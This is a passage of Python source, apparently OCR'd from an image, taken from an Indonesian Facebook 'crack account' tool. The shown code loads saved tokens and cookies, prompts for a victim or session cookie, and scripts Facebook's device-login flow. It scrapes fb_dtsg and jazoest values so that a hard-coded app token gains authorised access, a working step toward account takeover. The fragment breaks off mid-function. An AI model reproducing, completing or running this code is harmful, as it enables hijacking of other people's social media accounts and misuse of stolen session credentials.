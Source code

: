 		''')
def login():
	try:
		token = open('.token.txt','r').read()
		cok = open('.cok.txt','r').read()
		tokenku.append(token)
		try:
			sy = requests.get('https://graph.facebook.com/me?fields=id,name&access_token='+tokenku[0], cookies={'cookie':cok})
			sy2 = json.loads(sy.text)['name']
			sy3 = json.loads(sy.text)['id']
			menu(sy2,sy3)
		except KeyError:
			login_lagi1334()
		except requests.exceptions.ConnectionError:
			li = '# Problem Internet Connection, Check And Try Again'
			lo = mark(li, style='red')
			sol().print(lo, style='cyan')
			exit()
	except IOError:
		login_lagi1334()
		
def login_lagi1334():
	try:
		os.system('clear')
		banner()
		cetak(nel('Disarankan Untuk Menggunakan Cookie Yang Masih Fresh Untuk Melakukan Crack Account',width=90,style=f"bold white"))
		your_cookies = input(' ╰─  Masukan Cookie : ')
		with requests.Session() as r:
			try:
				r.headers.update({'content-type': 'application/x-www-form-urlencoded',})
				data = {'access_token': '1348564698517390|007c0a9101b9e1c8ffab727666805038','scope': ''}
				response = json.loads(r.post('https://graph.facebook.com/v2.6/device/login/', data = data).text)
				code, user_code = response['code'], response['user_code']
				verification_url, status_url = ('https://m.facebook.com/device?user_code={}'.format(user_code)), ('https://graph.facebook.com/v2.6/device/login_status?method=post&code={}&access_token=1348564698517390%7C007c0a9101b9e1c8ffab727666805038&callback=LeetsharesCallback'.format(code))
				r.headers.pop('content-type')
				r.headers.update({'sec-fetch-mode': 'navigate','user-agent': 'Mozilla/5.0 (Linux; Android 9; RMX1941 Build/PPR1.180610.011; wv) AppleWebKit/537.36 (KHTML, like Gecko) Version/4.0 Chrome/107.0.5304.54 Mobile Safari/537.36','sec-fetch-site': 'cross-site','Host': 'm.facebook.com','accept': 'text/html,application/xhtml+xml,application/xml;q=0.9,image/avif,image/webp,image/apng,*/*;q=0.8,application/signed-exchange;v=b3;q=0.9','sec-fetch-dest': 'document',})
				response2 = r.get(verification_url, cookies = {'cookie': your_cookies}).text
				if 'Bagaimana Anda ingin masuk ke Facebook?' in str(response2) or '/login/?next=' in str(response2):
					print(" ╰─  Cookie Invalid...", end='\r');time.sleep(3.5);print("                     ", end='\r');exit()
				else:
					action = re.search('action="(.*?)">', str(response2)).group(1).replace('amp;', '')
					fb_dtsg = re.search('name="fb_dtsg" value="(.*?)"', str(response2)).group(1)
					jazoest = re.search('name="jazoest" value="(\d+)"', str(response2)).group(1)
					data = {'fb_dtsg': fb_dtsg,'jazoest': jazoest,'qr': 0,'user_code': user_code,}
					r.headers.update({'origin': 'https://m.facebook.com','referer': verification_url,'content-type': 'application/x-www-form-urlencoded','sec-fetch-site': 'same-origin',})
					response3 = r.post('https://m.facebook.com{}'.format(action), data = data, cookies = {'cookie': your_cookies})
					if 'https://m.facebook.com/dialog/oauth/?auth_type=rerequest&redirect_uri=' in str(response3.url):
						r.headers.pop('content-type');r.headers.pop('origin')
						response4 = r.post(response3.url, data = data, cookies = {'cookie': your_cookies}).text
						action = re.search('action="(.*?)"', str(response4)).group(1).replace('amp;', '')
						fb_dtsg = re.search('name="fb_dtsg" value="(.*?)"', str(response4)).group(1)
						jazoest = re.search('name="jazoest" value="(\d+)"', str(response4)).group(1)